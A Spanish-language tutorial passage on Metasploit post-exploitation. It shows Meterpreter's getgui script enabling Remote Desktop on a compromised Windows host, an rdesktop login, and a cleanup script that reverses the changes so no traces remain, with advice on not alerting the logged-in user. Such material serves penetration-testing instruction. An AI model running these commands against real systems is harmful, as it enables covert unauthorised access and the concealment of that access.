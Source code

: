 ```
meterpreter > run getgui -e

[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator

[*] Carlos Perez carlos_perez@darkoperator.com

[*] Enabling Remote Desktop

[*] RDP is disabled; enabling it …

[*] Setting Terminal Services service startup mode

[*] The Terminal Services service is not set to auto, changing it to auto …

[*] Opening port in local firewall if necessary

[*] For cleanup use command: run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110307.0914.rc
```

##### Posteriormente podemos conectarnos al escritorio remoto usando el comando rdesktop con una sintaxis similar al siguiente:

`rdesktop -u juan -p juan 192.168.1.34`

Cabe notar que el usuario y el password especificados pueden corresponder a un usuario creado anteriormente con incógnito, aunque evidentemente se puede utilizar cualquier otro usuario con credenciales validas.

Nota: En sistemas operativos XP y otros que no soporten múltiples sesiones de escritorio remoto, esta acción hará que el usuario logueado en la maquina remota pierda su sesión, por ende es necesario tener prudencia con este tipo de acciones, principalmente para no alertar al usuario sobre las acciones que se están llevando a cabo, esto también aplica a la creación de usuarios, dado que es bastante notorio cuando un usuario se ha creado en el sistema.


##### Finalmente, se limpia lo que se ha hecho para no dejar rastros, para esto se utiliza el comando:

```
meterpreter > run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110307.0914.rc

[*] Running Command List …

[*] Running command reg setval -k ‘HKLM\System\CurrentControlSet\Control\Terminal Server’ -v ‘fDenyTSConnections’ -d "1"

Successful set fDenyTSConnections.

[*] Running command execute -H -f cmd.exe -a “/c sc config termservice start= disabled”

Process 580 created.

[*] Running command execute -H -f cmd.exe -a “/c sc stop termservice”

Process 3184 created.

[*] Running command execute -H -f cmd.exe -a “/c ‘netsh firewall set service type = remotedesktop mode = enable’”

Process 1312 created.
```
